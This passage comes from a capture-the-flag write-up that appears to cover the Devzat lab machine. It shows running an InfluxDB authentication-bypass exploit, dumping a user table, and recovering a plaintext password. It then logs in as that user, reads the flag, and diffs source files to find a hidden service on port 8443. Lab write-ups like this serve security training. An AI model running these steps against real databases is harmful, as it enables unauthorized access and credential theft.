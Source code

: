 Download it and give permission</br>

Command : *chmod +x__ main__.py </br>
          pip install -r requirements.txt*
          
![install pip req](https://user-images.githubusercontent.com/104053455/177007137-5e13c210-ba41-4817-aeb2-7b89deda2ef0.png)

After doing these steps start the influxDB exploit.</br>

Command: *python3___main__.py*

![main py](https://user-images.githubusercontent.com/104053455/177007191-777f19c7-44b3-4a05-87aa-61bf98ab0316.png)

List the table using.</br>

Command: *SHOW MEASUREMENTS*

![main 2 py](https://user-images.githubusercontent.com/104053455/177007235-66cb8982-24bd-42a7-bc1a-47e2ae8f4ab0.png)

After that dump user.</br>

Command: *select *from "user"*

![passw](https://user-images.githubusercontent.com/104053455/177007442-1deb4f81-2805-4b8e-a402-4f8e217f719b.png)

User: *catherine*</br>
Password: *woBeeYareedahc7Oogeephies7Aiseci*

Now we got the password of Catherine's user, so we can log in as Catherine's user.</br>

### 11. Switching to Catherine user :</br>

Command: *su Catherine</br>

           cat user.txt* [ to view the user flag]

![cat](https://user-images.githubusercontent.com/104053455/177007525-af3f2038-0a0e-4fac-a571-ffafc60ddaa0.png)

User flag:

![flag](https://user-images.githubusercontent.com/104053455/177007541-cae4666c-d7bc-4114-8e83-dc2a46425c24.png)

Here we got a zip files named devzat-dev.zip and devzat-main.zip so we need to unzip it into /tmp directory</br>

Command : *cp devzat-dev.zip /tmp*

![dev](https://user-images.githubusercontent.com/104053455/177007568-3dae6759-3092-4108-86bb-d2eb224b4008.png)

From the diff command, the *"dev"* environment implements the file reading function using the file command with password protection. The "dev" environment is running on localhost *port 8443,* hence from the initial enumeration using Patrick account unable to check the process running *8443*.</br>

Command: *diff dev/commands.go main/commands.go*

![diff](https://user-images.githubusercontent.com/104053455/177007615-6850acc0-561e-4a02-a749-340bfc85fa64.png)
